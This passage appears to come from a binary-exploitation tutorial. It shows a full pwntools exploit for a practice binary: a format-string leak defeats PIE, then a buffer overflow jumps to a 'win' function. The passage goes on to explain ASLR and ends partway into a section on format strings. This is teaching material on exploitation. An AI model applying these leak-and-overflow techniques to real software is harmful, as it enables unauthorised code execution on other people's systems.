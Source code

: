 #### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('name?\n')
p.sendline('%3$p')

p.recvuntil('you ')
elf_leak = int(p.recvline(), 16)

elf.address = elf_leak - 0x11d5
log.success(f'PIE base: {hex(elf.address)}')

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.recvuntil('message?\n')
p.sendline(payload)

print(p.clean().decode())
```

#### 64-bit

Same deal, just 64-bit. Try it out :)

[pie-fmtstr-64](../assets/pie-fmtstr-64.zip)

## ASLR

> Address Space Layout Randomisation

### Overview

ASLR stands for **A**ddress **S**pace **L**ayout **R**andomisation and can, in most cases, be thought of as `libc`'s equivalent of PIE - every time you run a binary, `libc` (and other libraries) get loaded into a different memory address.

> While it's tempting to think of ASLR as `libc` PIE, there is a key difference.
>
> ASLR is a **kernel protection** while PIE is a binary protection. The main difference is that PIE can be **compiled into the binary** while the presence of ASLR is **completely dependent on the environment running the binary**. If I sent you a binary compiled with ASLR disabled while I did it, it wouldn't make any difference at all if you had ASLR enabled.

Of course, as with PIE, this means you cannot hardcode values such as function address (e.g. `system` for a ret2libc).

### The Format String Trap
